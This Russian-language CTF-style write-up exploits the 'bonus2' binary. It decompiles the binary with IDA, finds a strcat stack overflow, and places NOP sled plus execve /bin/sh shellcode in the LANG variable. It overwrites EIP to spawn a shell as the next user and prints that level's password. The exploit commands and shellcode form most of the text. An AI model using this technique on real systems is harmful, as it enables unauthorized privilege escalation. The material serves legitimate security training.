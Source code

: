 ## HowTo
```
su bonus2
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

### Инструменты:
- Ida Pro + hex rays
- peda (gdb + patterns)

### Анализ и ход решения

1. Дизассемблируем при помощи IdaPro и получаем си-псевдокод

**main()**
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+0h] [ebp-ACh]
  char dest; // [esp+50h] [ebp-5Ch]
  int v6; // [esp+78h] [ebp-34h]
  char *v7; // [esp+9Ch] [ebp-10h]

  if ( argc != 3 )
    return 1;
  memset(&dest, 0, 0x4Cu);
  strncpy(&dest, argv[1], 0x28u);
  strncpy((char *)&v6, argv[2], 0x20u);
  v7 = getenv("LANG");
  if ( v7 )
  {
    if ( !memcmp(v7, "fi", 2u) )
    {
      language = 1;
    }
    else if ( !memcmp(v7, "nl", 2u) )
    {
      language = 2;
    }
  }
  qmemcpy(&v4, &dest, 0x4Cu);
  return greetuser(v4)
```

**greetuser()**
```
int __cdecl greetuser(char src)
{
  int v1; // ecx
  int v2; // edx
  int v3; // ecx
  int v4; // edx
  char dest; // [esp+10h] [ebp-48h]
  int v7; // [esp+14h] [ebp-44h]
  int v8; // [esp+18h] [ebp-40h]
  int v9; // [esp+1Ch] [ebp-3Ch]
  __int16 v10; // [esp+20h] [ebp-38h]
  char v11; // [esp+22h] [ebp-36h]

  switch ( language )
  {
    case 1:
      *(_DWORD *)&dest = unk_8048717;
      v7 = *((_DWORD *)&unk_8048717 + 1);
      v8 = *((_DWORD *)&unk_8048717 + 2);
      v9 = *((_DWORD *)&unk_8048717 + 3);
      v10 = *((_WORD *)&unk_8048717 + 8);
      v11 = *((_BYTE *)&unk_8048717 + 18);
      break;
    case 2:
      strcpy(&dest, "Goedemiddag! ");
      v3 = *(_DWORD *)"dag! ";
      v4 = *(unsigned __int16 *)" ";
      break;
    case 0:
      strcpy(&dest, "Hello ");
      v1 = *(unsigned __int16 *)"o ";
      v2 = (unsigned __int8)aHello[6];
      break;
  }
  strcat(&dest, &src);
  return puts(&dest);
}
```
2. Анализ функций

**main()**
- проверяет число аргументов (должно быть == `2`), затем создает буфер длиной `72`: `40 байт из argv[1] + 32 байта из argv[2]`.
- затем проверяет значение переменной окружения `LANG` (доступные значения `fi, nl, en`) и в соответветствии с ней выставляется значение `глобальной переменной language (0 - en, 1 - fi, 2 - nl)`
- затем вызывается `return greetuser()`

**Greetuser()**
- копирует приветствие (длина зависит от языка) в буфер размером `64`
- конкатенирует буфер с приветствием `(64)` с буфером с именем пользователя `(72)` при помощи `strcat`

3. Попробуем переполнить буфер в используя конкатенацию в `strcat`
```
> gdb ./bonus2
> patter create 40
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'
> pattern create 32
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;A'

> run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa' 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;A'
Stopped reason: SIGSEGV
0x2d414143 in ?? ()
```
На английском языке `(LANG=en)` мне не удалось переполнить до смещения `eip`. 
Пробуя payload для 2-го аргумента сгенерированный через https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/ 
и варьируя язык `(LANG=fi, LANG=nl)`, находим оффсет до `eip`
```
LANG=fi 18
LANG=nl 23
```

4. Для размещения `shell code` попробуем использовать переменную окружения - программа загружает значение из нее. 
Используем `shell code` и предыдущих взломов
```
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

### Логика взлома:
- размещаем в `LANG` имя языка + `shell code`
- переполняем буфер `72 (40 + 32)`
- подменяем адрес `eip` на адрес переменной `LANG`
 
5. Размещаем в переменной `имя языка` + `слайс NOP-инструкций` + `shell code`
```
export LANG=$(python -c 'print("fi" + "\x90" * 20 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

7. Находим адрес переменной окружения `LANG`
```
> gdb ./bonus2
...
0x080485a6 <+125>:	call   0x8048380 <getenv@plt>
...

> b *main+125
run 1 2
> x/s *(char**)environ + x) - эксперементально находим индекс в массиве environ, в котором хранится переменная LANG - в моем запуске +17

> (gdb) x/s *((char**)environ + 17)
0xbffffe74:	 "LANG=fi...shell_code"
```
8. Текущий адрес перменной `0xbffffe74`. 
Помним, что в ней лежит `lang_name + nop + shell`. Смещаем адрес на начало nop-инструкций (либо в произвольное их место).
Мое смещение `2` (длина fi / nl). Результирующий адрес `BFFFFE76 -> \x76\xfe\xff\xbf`

9. Готовим payload для обоих аргументов
#### Аргумент 1
- `'A' * 40` - просто заполняем буфер

#### Аргумент 2
- `'A' * 18` (для fi), либо `'A' * 23` (для nl)  `'\x76\xfe\xff\xbf'`

**Результирующий запуск**
```
./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\x76\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBv���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
